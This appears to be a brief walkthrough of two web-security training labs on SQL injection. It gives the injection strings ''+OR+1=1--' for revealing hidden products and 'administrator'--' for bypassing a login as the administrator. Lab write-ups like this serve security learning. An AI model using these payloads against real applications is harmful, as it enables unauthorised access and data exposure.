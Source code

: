 
## Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

#### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
